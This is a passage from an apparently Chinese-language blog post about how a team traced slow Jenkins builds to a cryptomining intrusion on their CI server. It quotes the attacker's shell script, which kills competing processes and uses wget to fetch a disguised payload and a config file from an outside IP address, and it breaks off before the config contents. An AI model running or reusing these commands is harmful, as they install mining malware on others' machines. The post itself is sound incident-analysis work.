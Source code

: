 ```yaml
---
title:  你的 CI 在挖矿吗？
date: 2017-06-28
tags:
- 安全
- 持续集成
- DevOps
---
```


我们的持续集成服务器搭建在AWS上的一个EC2的虚拟机中。采用 Jenkins 2.46.1 并且只有一个Master实例来运行所有的任务。且采用持续部署——团队每天要在开发环境自动部署10+个版本。整个过程由Jenkins内部构建的流水线触发。代码提交，测试，构建，部署一气呵成。

我们有一个中心产品代码库，这个中心产品对应着不同国家的在线产品。分别是：新加坡，马来西亚，印度尼西亚和香港。为了安全起见，我们为每一个产品的环境单独部署了一套持续交付流水线。由于各地域产品的差异较小，我们采用同一套基础设施配置初始化Jenkins配置，因此，我们有四台差不多的持续交付流水线。

## 从一次“构建变慢“的调查说起

在周二的时候，突然有人发现”马来西亚“的部署流程开始变慢，其中构建过程从上周的的7分钟左右变成了44分钟。而同样的代码改动，其它国家的服务器并没有如此大的差异。

**那么问题一定在这个服务器上**！

影响构建速度的因素主要是资源的占用导致的等待，这方面的资源包括：CPU、内存、磁盘和网络。

由于我们采用NewRelic对所有的持续集成服务器进行监控。所以可以得到CPU、内存、磁盘和网络的性能监控数据以及横向的对比信息。通过对比相关的数据，我们发现这一台服务器上有个在/tmp目录下运行的叫\`donns\`的陌生进程长期占用大量CPU，它的文件权限属于Jenkins用户以及Jenkins用户组。所以这个程序的执行是由Jenkins出发了。

我们在Jenkins的相关网站里搜索这个名为donns进程的相关信息，但一无所获。于是我们在/tmp目录中寻找和这个进程相关的信息，我们发现了一个陌生的Shell脚本，打开内容看，内容却让我们大跌眼镜。以下是几个重要的脚本片段：

**代码片段 1**:

``` bash
pkill conns

ps auxw|head -1;ps auxw|sort -rn -k3|head -1|awk '{if(\$3\>80.0) print
"kill -9 " \$2}'|sh

pkill bonns
```

我们看到，这段代码杀死了占用CPU超过80%的进程。此外，杀死了名为conns和bonns的进程。

conns进程是什么？bonns进程又是什么？为什么要杀死CPU占用率超过80%的进程？

**代码片段 2**:

``` bash
wget 91.235.143.129:8086/587b626883fdc.png -O /tmp/conn

wget 91.235.143.129:8086/1eac80002f.conf -O /tmp/config.conf
```

从91.235.143.129:8086下载了一个图片和一个配置文件。这个服务器是干嘛的？这个配置文件又包含了哪些内容？

通过在自己的沙盒环境里打开这个配置文件，发现它的内容是这样的：
